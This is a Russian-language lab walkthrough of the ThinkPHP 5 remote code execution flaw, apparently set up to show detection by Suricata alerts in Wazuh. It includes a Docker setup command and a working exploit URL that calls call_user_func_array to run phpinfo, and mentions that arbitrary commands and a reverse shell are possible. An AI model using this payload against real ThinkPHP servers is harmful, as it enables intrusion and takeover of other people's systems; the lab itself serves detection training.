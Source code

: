 # 5-rce

### Материалы:

* [https://www.programmersought.com/article/91363936232/](https://www.programmersought.com/article/91363936232/)

ThinkPHP — чрезвычайно широко используемая среда PHP разработки в Китае. В пятой версии ThinkPHP, поскольку платформа неправильно обрабатывает имя контроллера, она может выполнить любой метод, если на веб-сайте не включена обязательная маршрутизация (которая используется по умолчанию), что приводит к уязвимости RCE.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна стандартна страница ThinkPHP

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(1).png" alt=""><figcaption></figcaption></figure>

Посетите следующую страницу для реализации уязвимости и вывода страницы phpinfo

```
http://ваш-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(2).png" alt=""><figcaption></figcaption></figure>

Также вы можете выполнять произвольные команды на целевой машине вплоть до получения обратной оболочки уязвимой машины:

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(3).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(4).png" alt=""><figcaption></figcaption></figure>
